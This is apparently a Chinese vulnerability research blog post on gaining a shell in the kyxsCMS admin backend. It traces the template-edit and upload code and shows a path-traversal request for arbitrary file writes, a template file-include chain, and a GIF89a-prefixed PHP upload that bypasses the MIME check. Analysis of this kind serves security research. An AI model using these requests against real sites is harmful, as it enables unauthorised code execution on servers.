





@Author：Y4tacker

@Time：2021/4/15

# kyxsCMS后台getshell

昨晚看到可以Getshell那就看看呗，首先只能说在后台所以利用条件太高了


## 准备工作

首先去`http://bbs.kyxscms.com/?t/1.html`下载该漏洞版本，

然后记得配置伪静态，kyxscms官方有问题

```
location / {
	if (!-e $request_filename){
		rewrite  ^(.*)$  /index.php?s=$1  last;   break;
	}
}
```

## 分析阶段

进入正题，明显可以看到，在后台能找到有个模板管理的模块



为了快速定位函数位置，我们先随便点开一个点击保存，看到，直接全局搜索字符串，在`Template.php`中找到了答案


第64行

```php
  public function edit(){
        $Template=model('template');
        $data=$this->request->post();
        if($this->request->isPost()){
            $res = $Template->edit($data);
            if($res  !== false){
                return $this->success('模版文件修改成功！',url('index'));
            } else {
                $this->error($Template->getError());
            }
        }else{
            $path=urldecode($this->request->param('path'));
            $info=$Template->file_info($path);
            $this->assign('path',$path);
            $this->assign('content',$info);
            $this->assign('meta_title','修改模版文件');
            return $this->fetch();
        }
    }
```

继续跟进edit

```
public function edit($data){
        return File::put($data['path'],$data['content']);
    }

```

看到接收两个参数`content=xxxx&path=template/home/default_web/lists.html`，

当然我们也应该继续分析跟进put函数，完全没过滤那就好说了

```
static public function put($filename,$content,$type=''){
        $dir   =  dirname($filename);
        if(!is_dir($dir))
            mkdir($dir,0755,true);
        if(false === file_put_contents($filename,$content)){
            throw new \think\Exception('文件写入错误:'.$filename);
        }else{
            self::$contents[$filename]=$content;
            return true;
        }
    }
```

经过我的测试存在目录穿越，因此可以修改任意文件的

```
content=122222&path=../koko.top/template/home/default_web/lists.html
```

那暴力点，从目录有个index.php直接改掉不就起飞




不过这个index.php是我们的入口文件，我们搞安全当然不能这么坏把整个站都搞坏了，那么我们还有个思路就是在原来的代码中给他多加一行代码即可，当然我们还有其他姿势，请继续看下去，在文件模板存在文件包含，那么我们也可以搞事情啊



配合上面这个任意文件修改洞，我们修改robots.txt然后包含进去，那必然起飞好吧



当然我还发现有一个文件上传漏洞



```
选择的图片中包含不支持的格式
```

我一去看文件，发现在一个js文件找到了答案，前端过滤啊hhh，当然我继续从代码层面分析，发现也有后端过滤

```
public function pic(){
        $file = $this->request->file('file');
        $info = $file->validate(['ext'=>'jpg,jpeg,png,gif,webp,bmp','type'=>'image/jpeg,image/png,image/gif,image/webp,image/bmp'])->move(config('web.upload_path').$this->request->param('path'));
        if($info){
            $this->success('上传成功！','',['path'=>substr(config('web.upload_path'),1).$this->request->param('path').'/'.str_replace('\\','/',$info->getSaveName())]);
        }else{
            $this->error($file->getError());
        }
    }
```

这个validate没啥好说

```
public function validate($rule = [])
    {
        $this->validate = $rule;

        return $this;
    }
```

而这个move方法当中，第354行很明显看出，有一个校验

```
 // 验证上传
        if (!$this->check()) {
            return false;
        }
```

那我们继续分析

```
 if ((isset($rule['size']) && !$this->checkSize($rule['size']))
            || (isset($rule['type']) && !$this->checkMime($rule['type']))
            || (isset($rule['ext']) && !$this->checkExt($rule['ext']))
            || !$this->checkImg()) {
            return false;
        }
```

很简单，检验大小，是否为图片后缀，然后检查MIme，看下这个也很简单逻辑

```
public function checkMime($mime)
    {
        if (is_string($mime)) {
            $mime = explode(',', $mime);
        }

        if (!in_array(strtolower($this->getMime()), $mime)) {
            $this->error = 'mimetype to upload is not allowed';
            return false;
        }

        return true;
    }
```

那肯定`GIF89a`一瞬绕过，那么接下来我们构造一个叫`1.png`的文件，内容为

```
GIF89a
<?php phpinfo();?>
```


傻乎乎给了地址，再配合上面文件包含，一瞬拿下